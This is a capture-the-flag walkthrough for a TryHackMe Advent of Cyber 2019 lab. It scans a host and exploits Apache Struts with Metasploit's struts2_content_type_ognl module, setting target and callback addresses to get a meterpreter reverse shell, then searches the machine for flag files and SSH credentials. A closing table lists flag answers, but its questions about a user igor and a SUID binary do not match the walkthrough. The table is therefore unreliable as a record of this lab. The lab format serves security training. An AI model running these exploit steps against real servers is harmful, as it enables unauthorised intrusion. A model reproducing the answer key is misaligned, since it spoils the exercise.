 # [Day 10] Metasploit-a-ho-ho-ho Writeup
### Tags: `#Linux Webapp #Metasploit #Meterpreter`
#### [Machine Link](https://tryhackme.com/room/25daysofchristmas)

<img src='imgs/advent2019day10.png' width='200' align='center'>

## Walkthrough

1.) Lets ping the machine to see if it is up and running.

```bash
ping 10.10.173.247
```

![](imgs/ping.png)

2.) Lets run a nmap scan on the machine to enumerate all services on open ports.

```bash
nmap -A 10.10.173.247
```

![](imgs/nmap.png)

3.) Lets take a look at the Apache webapp running on port 80. The home page redirects to /showcase.action, this seems unique.

![](imgs/webapp.png)

4.) Using google, lets search for apache showcase.action and see if we can find any results for exploits that we can use. The 4th result from www.rapid7.com seems like a good fit because Rapid7 is the developers of Metasploit.

![](imgs/showcase_action.png)

5.) Using the CLI tool searchsploit, which is a local version of the exploitDB maintained by OffSec. We can see the exploits listed for Apache Struts.

![](imgs/searchsploit.png)

6.) Using Metasploit, lets execute the struts2_content_type_ognl exploit.

```bash
msfconsole

search struts2

use 6

show options
```

![](imgs/usemsf.png)

7.) When using Metasploit, we need to set all the required options before trying to execute the exploit on the machine.

```bash
set RHOSTS 10.10.173.247

Set RPORT 80

set TARGETURI /showcase.action

set LHOST 10.13.37.142
```

![](imgs/setoptions.png)

8.) With all the required fields set within Metasploit, we can execute the exploit by running the command run.

![](imgs/run.png)

9.) Now that we have a meterpreter shell, we can drop into a standard shell by running the command shell. What we are trying to do is run a bash command to find any files on the machine that have flag1 within its name.

```bash
shell

find / 2>dev/null | grep -i "flag1"
```

![](imgs/flag1.png)

10.) Lets take a look at the / directory. Do you notice the .dockerenv file. This is a sign that we are currently isolated inside a active containter. Another sign is to run the ps aux command and take note of the number of processes (less processes means most likely a docker container).

![](imgs/docker.png)

11.) Now taking a look at the santa home directory, we see a file named ssh-creds.txt. 

![](imgs/sshcreds.png)

## Tasks
| Task | Question | Answer |
| --- | --- | --- |
| Task #1 | What port is SSH running on? | 65534 |
| Task #2 | Find and run a file as igor. Read the file /home/igor/flag1.txt | THM{d3f0708bdd9accda7f937d013eaf2cd8} |
| Task #3 | Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file? | THM{8c8211826239d849fa8d6df03749c3a2} |







